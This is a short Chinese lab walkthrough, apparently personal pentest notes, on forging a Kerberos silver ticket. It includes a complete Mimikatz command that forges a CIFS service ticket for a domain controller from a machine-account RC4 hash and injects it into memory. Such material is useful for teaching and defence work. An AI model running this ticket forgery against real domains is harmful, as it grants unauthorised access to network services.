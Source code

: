 ①清除系统中所有缓存的票据

![image-20210916214836396](image/image-20210916214836396.png)

②使用Mimikatz制作白银票据并注入到内存中

```
kerberos::golden /domain:y5neko.com /sid:S-1-5-21-1272869298-2579316034-2461789828 /target:SERVER2016DC.y5nekoad.com /service:cifs /rc4:c728c6df22610a74aff69f2604017936 /user:SERVER2016DC$ /ptt
```

<img src="image/image-20210916215023812.png" alt="image-20210916215023812" style="zoom:67%;" />

③制作成功，使用klist查看注入的票据

<img src="image/image-20210916215145818.png" alt="image-20210916215145818" style="zoom:80%;" />
